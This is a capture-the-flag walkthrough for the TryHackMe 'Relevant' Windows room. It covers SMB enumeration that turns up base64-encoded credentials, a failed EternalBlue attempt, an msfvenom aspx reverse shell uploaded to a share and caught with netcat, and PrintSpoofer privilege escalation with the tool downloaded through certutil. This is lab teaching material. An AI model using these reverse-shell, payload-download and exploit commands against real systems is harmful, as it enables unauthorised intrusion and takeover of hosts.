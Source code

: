 # Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.145.102
</strong></code></pre>

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9) (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (3) (1) (2).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11) (4) (1).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



### TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2) (2) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

<pre><code><strong>rlwrap nc -lvnp 1337
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (11) (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Exploit:** [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

As SeImpersonatePrivilege is enabled for the user we can use Printspoofer as it works on Windows 10 and Server 2016/2019.



**Victim**

```
systeminfo
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (16) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Windows\Temp
certutil -urlcache -f http://10.10.163.87:81/PrintSpoofer.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
PrintSpoofer.exe -i -c powershell.exe
```

<figure><img src="../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (3) (1).png" alt=""><figcaption></figcaption></figure>

